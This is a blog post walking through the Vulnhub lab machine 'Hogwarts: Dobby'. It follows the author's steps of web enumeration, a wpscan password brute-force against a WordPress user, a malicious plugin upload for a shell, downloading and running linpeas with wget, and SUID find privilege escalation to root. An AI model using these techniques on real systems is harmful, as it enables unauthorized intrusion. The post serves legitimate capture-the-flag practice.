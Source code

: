 ```yaml
---
layout: post
title:  "Vulnhub - HOGWARTS: DOBBY"
date:   2020-11-14 17:00:00 +1100
category: hacking
---
```


## Introduction
*dobby needs to be root to help harry potter, dobby needs to be a free elf  
Difficult: Easy  
This works better in VirtualBox*  

This is [HOGWARTS: DOBBY](https://www.vulnhub.com/entry/hogwarts-dobby,597/) from Vulnhub. 

## Ports
HTTP only; makes targeting easier.

## HTTP and Rabbits
This one has a few rabbitholes, or at least red herrings. The page title on the website homepage is:

>Draco:dG9vIGVhc3kgbm8/IFBvdHRlcg==

This decodes to:

>too easy no? Potter

This doesn't appear to be useful for anything.

At the very bottom of the page in the source code is a comment:

>See: /alohomora

If we go there, we get a message:

>Draco's password is his house ;)

### Gobuster
Gobuster finds a directory called */log*. It says:

>pass:OjppbGlrZXNvY2tz  
hint --> /DiagonAlley

The base64 encoded string decodes to:

>::ilikesocks

This doesn't appear to be useful for anything.

Going to */DiagonAlley*, we find a Wordpress installation. Maybe we're getting somewhere?

### wpscan
Enumerate with:

``
wpscan -e --url http://192.168.1.143/DiagonAlley/
``

And we have one user, *draco*. We find a post entitled *Dobby* that is written in what appears to be *brainfuck*, but running it through an interpreter only yields what might be a partial password - this is another distraction. Let's run a password attack:

``
wpscan --url http://192.168.1.143/DiagonAlley/ -U 'draco' -P /usr/share/wordlists/rockyou.txt
``

Success:

{% highlight shell %}
[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - draco / slytherin                                                                                                                     
Trying draco / slytherin Time: 00:18:42 <                                                               > (14930 / 14359323)  0.10%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: draco, Password: slytherin
{% endhighlight %}

Apparently the hint from */alohomora* wasn't a red herring. Whatever.

### Wordpress
The installation is in Spanish (I think) so it's a bit hard to read but I can upload a malicious plugin as a zip file (see [midnight](https://blog.gibbons.digital/hacking/2020/10/23/midnight.html) for details). This gets me a shell.

## Privesc
As usual, run linpeas from /dev/shm after upgrading my shell:

{% highlight shell %}
www-data@HogWarts:/var/www/html/DiagonAlley/wp-admin$ which python3
which python3
/usr/bin/python3
www-data@HogWarts:/var/www/html/DiagonAlley/wp-admin$ python3 -c 'import pty;pty.spawn("/bin/bash");'
<in$ python3 -c 'import pty;pty.spawn("/bin/bash");'  
www-data@HogWarts:/var/www/html/DiagonAlley/wp-admin$ cd /home
www-data@HogWarts:/home/dobby$ cd /dev/shm
cd /dev/shm
www-data@HogWarts:/dev/shm$ wget https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh
<ion-awesome-scripts-suite/master/linPEAS/linpeas.sh
--2020-11-14 08:35:43--  https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 151.101.80.133
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|151.101.80.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 297851 (291K) [text/plain]
Saving to: ‘linpeas.sh’

linpeas.sh          100%[===================>] 290.87K  --.-KB/s    in 0.05s   

2020-11-14 08:35:44 (5.41 MB/s) - ‘linpeas.sh’ saved [297851/297851]

www-data@HogWarts:/dev/shm$ chmod +x linpeas.sh
chmod +x linpeas.sh
www-data@HogWarts:/dev/shm$ ./linpeas.sh
./linpeas.sh
{% endhighlight %}

This gives us not one but two SUID binaries of interest - *base32* and *find*. We'll take find as per [GTFOBins](https://gtfobins.github.io/gtfobins/find/#suid)

{% highlight shell %}
www-data@HogWarts:/dev/shm$ find . -exec /bin/sh -p \; -quit
find . -exec /bin/sh -p \; -quit
# whoami
whoami
root
# less proof.txt
less proof.txt
root{63a9f0ea7bb98050796b649e85481845!!}
{% endhighlight %}

This box didn't have *cat* but it still had *head* and *less* so no problem. Done and done.
